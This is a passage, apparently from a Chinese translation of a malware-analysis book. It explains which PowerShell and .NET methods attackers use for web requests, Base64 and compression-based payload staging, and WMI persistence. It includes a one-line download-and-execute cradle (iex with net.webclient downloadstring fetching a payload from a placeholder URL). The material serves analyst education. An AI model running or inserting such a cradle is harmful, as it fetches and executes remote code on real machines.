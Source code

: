     +   `Create`（也包括`CreateDefault`和`CreateHttp`）：用于创建一个向服务器发送的网络请求。

    +   `GetResponse`：发送请求并获取响应，例如与一个新的恶意模块。带有`Async`后缀和`Begin`、`End`前缀的版本也可用于异步操作（如`BeginGetResponse`或`GetResponseAsync`），但攻击者很少使用这些异步版本。

    +   `GetRequestStream`：返回一个用于向互联网资源写入数据的流——例如，窃取一些有价值的信息或发送感染统计数据。带有`Async`后缀和`Begin`、`End`前缀的版本也可以使用。

+   从`[System.Net.Http.HttpClient]`类，我们有以下方法：

    +   `GetAsync`、`GetStringAsync`、`GetStreamAsync`、`GetByteArrayAsync`、`PostAsync`和`PutAsync`：这些是发送任何类型 HTTP 请求并接收响应的多种选择。

+   `[System.IO.Compression.DeflateStream]`和`[System.IO.Compression.GZipStream]`类通常用于解压经过 Base64 解码后的嵌入式 Shellcode。它们通常与`[System.IO.Compression.CompressionMode]::Decompress`参数一起用作`[System.IO.StreamReader]`对象的参数（以下截图提供了示例）。

+   从`[System.Convert]`类，我们有以下方法：

    +   `FromBase64String`：用于解密 Base64 编码的字符串，例如下一个阶段的有效负载。

对于.NET 命名空间，`System.`前缀可以安全省略，如下所示：

![图 10.21 – 一个 Veil 有效负载的示例](img/Figure_10.21_B18500.jpg)

图 10.21 – 一个 Veil 有效负载的示例

如我们所见，结合压缩和 Base64 编码是攻击者常用的技术，用于存储下一个阶段的有效负载，从而使分析和检测更加复杂。我们将在下一节中详细讨论其他混淆技术。以下是下载并执行有效负载的代码示例：

```
iex(new-object net.webclient).downloadstring('http://<url>/payload.bin')
```

与命令行参数一样，方法名可以被截断而不会产生歧义。分析师可以使用带有通配符的`Get-Command`/`gcm`命令来识别完整的名称，攻击者也可以使用它们来动态解析方法名。

PowerShell 还可以用于执行自定义的 .NET 代码。特别是，`Add-Type -TypeDefinition <variable_storing_source_code>` 语法可以用来动态编译 .NET 源代码直接在 PowerShell 脚本中，这样它就可以立即使用。为了这个目的，`csc.exe` 工具将在后台被使用。

臭名昭著的基于 PowerShell 的 Bluwimps 将信息存储在 WMI 管理类中。这使得它难以通过传统的防病毒解决方案进行检测，并且可以通过 **Windows 管理工具命令** (**WMIC**) 远程执行代码，而不是使用更广泛使用的 **psexec** 工具。
